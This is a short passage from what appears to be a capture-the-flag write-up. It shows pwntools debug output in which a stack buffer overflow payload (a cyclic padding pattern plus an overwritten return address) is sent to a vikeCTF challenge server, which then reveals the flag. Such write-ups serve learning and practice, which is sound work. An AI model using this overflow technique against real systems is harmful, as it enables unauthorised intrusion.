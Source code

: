 ```bash
[DEBUG] Received 0x2c bytes:
    b'What would you like your flag stand to say? '
[DEBUG] Sent 0x31 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  57 15 40 00  00 00 00 00  │iaaa│jaaa│W·@·│····│
    00000030  0a                                                  │·│
    00000031
[+] Receiving all data: Done (133B)
[DEBUG] Received 0x65 bytes:
    b'Great! Your organic, custom-engraved flag stand will be delivered within three to six business weeks\n'
[DEBUG] Received 0x20 bytes:
    b'vikeCTF{B!n@ry_Xp10!7@7!0N_X64}\n'
[*] Closed connection to 35.94.129.106 port 3008
```

> Flag: vikeCTF{B!n@ry_Xp10!7@7!0N_X64}
{: .prompt-tip }
